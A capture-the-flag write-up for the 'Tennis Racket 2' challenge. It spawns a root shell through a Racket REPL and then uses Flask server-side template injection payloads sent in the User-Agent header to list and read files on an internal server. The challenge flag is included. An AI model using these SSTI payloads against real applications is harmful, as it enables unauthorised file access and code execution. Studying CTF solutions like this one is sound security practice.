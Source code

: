# Tennis Racket 2

**Challenge Type: SSTI (Server Side Template Injection)**  
**Challenge Status: Solved**

## Preface

This challenge consists of 2 parts. First being, getting the flag file and second, exploiting an internal webserver.

## Challenge
I just found out my CS Prof is going to be teaching us Python next semester! Lets see if I can find anything useful for next semester on his computer too...

`nc tennis2.nypinfsecctf.tk 8011`

## Solution

1. Connect to the server via netcat

`nc tennis2.nypinfsecctf.tk 8011`

2. Start a root shell using Racket-lang's built-in functions

```rkt
(system "/bin/bash")
```

3. Look for the flag file

```bash
root@fd5a5457d0f5:/# ls -la

total 60
drwxr-xr-x   1 root root 4096 May  5 23:16 .
drwxr-xr-x   1 root root 4096 May  5 23:16 ..
-rwxr-xr-x   1 root root    0 May  5 23:16 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 27 03:49 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 15  2020 boot
drwxr-xr-x   5 root root  340 May  7 12:16 dev
drwxr-xr-x   1 root root 4096 May  5 23:16 etc
-rw-r--r--   1 root root  183 May  4 02:34 flag
drwxr-xr-x   2 root root 4096 Apr 15  2020 home
lrwxrwxrwx   1 root root    7 Apr 27 03:49 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr 27 03:49 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr 27 03:49 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr 27 03:49 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Apr 27 03:49 media
drwxr-xr-x   2 root root 4096 Apr 27 03:49 mnt
drwxr-xr-x   2 root root 4096 Apr 27 03:49 opt
dr-xr-xr-x 298 root root    0 May  7 12:16 proc
drwx------   1 root root 4096 May  4 12:07 root
drwxr-xr-x   1 root root 4096 May  4 12:06 run
lrwxrwxrwx   1 root root    8 Apr 27 03:49 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Apr 27 03:49 srv
dr-xr-xr-x  13 root root    0 May  7 12:16 sys
drwxrwxrwt   1 root root 4096 May  4 12:07 tmp
drwxr-xr-x   1 root root 4096 May  4 12:06 usr
drwxr-xr-x   1 root root 4096 Apr 27 03:52 var
```

4. Print out flag file contents

```bash
root@fd5a5457d0f5:/# cat flag

TODO List:
1. Grade Racket Assignments
2. Test out new website at http://tennisracket2-grade-bot:5000
3. Chase students for tuition fee
4. Mend my broken relationship with my daughter
```

*It doesn't look right...* **Let's try the webserver**

5. Connect to the webserver

```bash
root@fd5a5457d0f5:/# curl http://tennisracket2-grade-bot:5000
    
<h1>Hi! Grade-bot is still a work-in-progress.</h1>
<p>Here is some debug information:</p>
    
curl/7.68.0
```

**Notice that we used `curl` and it returned our `User-Agent`.**

6. Find out the server type

```bash
root@fd5a5457d0f5:/# curl -I http://tennisracket2-grade-bot:5000

HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.9.12
Date: Sat, 07 May 2022 19:51:11 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 135
Connection: close
```

7. Most popular webserver is Flask. Time to list files

```bash
curl -A "{{url_for.__globals__.os.__dict__.listdir('./')}}" http://tennisracket2-grade-bot:5000
    
<h1>Hi! Grade-bot is still a work-in-progress.</h1>
<p>Here is some debug information:</p>
    
[&#39;flag&#39;, &#39;app.py&#39;]
```

8. We found the flag

```bash
curl -A "{{url_for.__globals__.__builtins__.open('flag').read()}}" http://tennisracket2-grade-bot:5000

<h1>Hi! Grade-bot is still a work-in-progress.</h1>
<p>Here is some debug information:</p>
    
NYP{r5ck3t_fl5sk_sst1}
```

## Ending Note

Flask has many other methods for linking into `__globals__` space. `url_for` is one of them.

# Other Reads

Check out the author's write-up of this challenge. He explains it in more detail together with his thought process.  
https://github.com/Portatolova/NYP-CTF-Challenges/tree/main/2022%20May%20CTF/Programming%20-%20Tennis%20Racket%202